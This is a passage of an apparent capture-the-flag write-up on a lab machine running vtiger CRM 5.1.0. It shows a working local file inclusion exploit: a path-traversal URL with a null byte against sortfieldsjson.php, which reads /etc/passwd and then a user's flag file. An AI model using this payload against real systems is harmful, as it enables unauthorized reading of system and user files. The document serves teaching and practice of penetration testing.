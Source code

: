 ![](pics/vvtiger.png)

vtiger CRM (Version 5.1.0) is an open source customer-relationship management tool, that's based on PHP and MySQL.
Googling for that specific version show that it has several vulnerabilities amongst others an LFI (https://www.exploit-db.com/exploits/18770).

So let's try that:

```
https://10.129.1.226/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00


root:x:0:0:root:/root:/bin/bash 
bin:x:1:1:bin:/bin:/sbin/nologin 
...
fanis:x:501:501::/home/fanis:/bin/bash 
```

It's working! We now know that there is a user called fanis. Using the LFI we can try to obtain the userflag

```
https://10.129.1.226/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../home/fanis/user.txt%00

aea082e5ae690372196d0ebee91146c8 
```

Unfortunately, we cannot obtain the root flag, as the hijacked user apparently does not have enough privileges.
